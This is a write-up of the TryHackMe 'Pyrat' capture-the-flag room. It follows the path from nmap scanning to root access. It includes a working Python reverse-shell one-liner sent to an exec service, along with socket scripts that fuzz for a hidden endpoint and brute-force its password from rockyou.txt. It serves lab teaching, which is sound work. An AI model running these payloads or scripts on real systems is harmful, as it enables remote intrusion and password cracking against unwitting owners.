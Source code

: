 ```yaml
---
title: "TryHackMe: Pyrat Writeup - Easy"
date: 2025-10-13 19:10:00 +0300
categories: [TryHackMe]
tags: [tryhackme, boot2root, python]
image:
  path: /assets/images/2025-10-13-thm-pyrat/cover.png
---
```


## Overview

**Pyrat** is a **boot-to-root** style room where getting the reverse shell is very easy, yet escalating your privileges takes some more effort. You will need to have some scripting knowledge in your programming language of choice.

Room Link: [Pyrat](https://tryhackme.com/room/pyrat){:target="_blank" rel="noopener noreferrer"}

## Reconnaissance

After booting up our virtual machine we need to find ways to interact with it. We will start with some basic `nmap` scans.

### Nmap

First lets start by finding open ports on the target machine. To accomplish this lets run `nmap` with the `-p-` argument to scan all the ports. Here is the output I got:

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

Nmap output tells us that only two ports are open, which are 22 and 8000. Next I ran a service scan with the `-sV` argument to see which services are running on these ports:

```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
```

Lets try and connect to that http server to see what its hosting. When we visit the website on our browser we see a message saying "Try a more basic connection!"

![Try A More Basic Approach]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss1.png)

### Manual connection and reverse shell

So lets try a more basic approach and send a request with `nc`. After we try to make a request with `nc` we see that the server doesn't wait for the `Host:` header and responds immediately, complaining that `GET` is not defined.

![Netcat manual connection]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss2.png)

This could indicate that the server executes your input as python code. Trying to run a `print` command does confirm this theory. So we just need to make a python reverse shell payload and execute it here. I used a reverse shell from [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/){:target="_blank" rel="noopener noreferrer"}

```python
a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("{IP}",{PORT}));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())
```

With our command executed, we have the reverse shell

![Reverse shell]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss3.png)

## Enumeration

Lets start our enumeration by uploading a **linpeas** script. While that runs we can find two users under `/home` by doing some manual enumeration . Both of which we don't have access to. After **linpeas** finishes we can check out the logs. There isn't much interesting other than the unusual `dev` directory under `/opt`. So lets investigate that. At first the directory looked empty, until I ran `ls -la` which revealed a `.git` folder. Trying to run `git log --all` failed, yet we can still access the **config** file. Once we read that we see credentials for the user **think**.

![Think credentials]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss4.png)

## User flag

Trying the credentials on **SSH** is a success and allows us to acquire the user flag in the home directory.

![User flag]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss5.png)

Running `sudo -l` shows that we don't have any sudo privileges. So lets see if we can access the git logs now. Going back to `/opt/dev/.git` and running `git log --all` shows us a commit that added the shell endpoint.

![Git commits]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss6.png)

Lets see what the commit was by running `git show <hash>`.

```python
def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

```

Looking at the python code we can understand that the code first checks if the input matches a certain endpoint, and if it doesn't it drops the privileges and checks again if the input is *shell*. In the case its true it spawns a shell, if its not it executes the python code. Now we can verify this by inputting shell after we connect.

![Verifying shell]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss7.png)

## Root flag

We can see that it worked, so our understanding of the code is correct. We just need to find the endpoint now. So its time to make a script to fuzz the application with different inputs. Here is the script I used:

```python
import socket

wordlist = "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt"
TARGET = ""
PORT = 8000

with open(wordlist, 'r') as f:
    for line in f:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:

            s.connect((TARGET, PORT))
            s.send(line.encode('utf-8'))
            resp = s.recv(4096).decode('utf-8')
            if not "is not defined" in resp:
                print(f"Interesting response for {line}\n[RESPONSE] {resp}")
```

After running the script we quickly get a hit, and with that we found our endpoint.

![Found endpoint]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss8.png)

Testing the endpoint on the target we can see that it responded differently, asking for a password this time.

Now lets test some passwords to see how the app behaves. After entering the value `test` we can see that the application allows us to enter a password 3 times before requiring us to enter the endpoint again. 

![How the code behaves]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss11.png)

Lets make another script to brute force this password as well.

```python
import socket

host = ""
port = 8000
endpoint = ""
wordlist = "/usr/share/wordlists/rockyou.txt"

def read_passwords():
    with open(wordlist, 'r', encoding='latin-1') as f:
        passwords = [line.strip() for line in f]
    return passwords

passwords = read_passwords()

for i in range(0, len(passwords), 3):
    with socket.socket() as s:
        s.connect((host, port))
        s.settimeout(2)
        
        s.send((endpoint + "\n").encode())
        response = s.recv(1024)
        
        for j in range(3):
            if i + j >= len(passwords):
                break
                
            pwd = passwords[i + j]
            s.send((pwd + "\n").encode())
            
            try:
                response = s.recv(1024)
                if b"Password:" not in response:
                    print(f"FOUND PASSWORD: {pwd}")
                    print(f"Response: {response.decode()}")
                    exit(0)
            except socket.timeout:
                break
```

After we let it run for a while it finds the password.

![Found password]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss9.png)

After connecting to the machine again and entering both the endpoint and password we get a welcome message.

Typing *shell* gives us a shell as root, and we can grab the flag from here.

![Found root flag]({{ site.baseurl }}/assets/images/2025-10-13-thm-pyrat/ss10.png)

## Conclusion

**Pyrat** is a nice room, it gives you **RCE** early but makes you work for the root and user flags. It also requires some scripting to automate the brute-forcing and fuzzing.
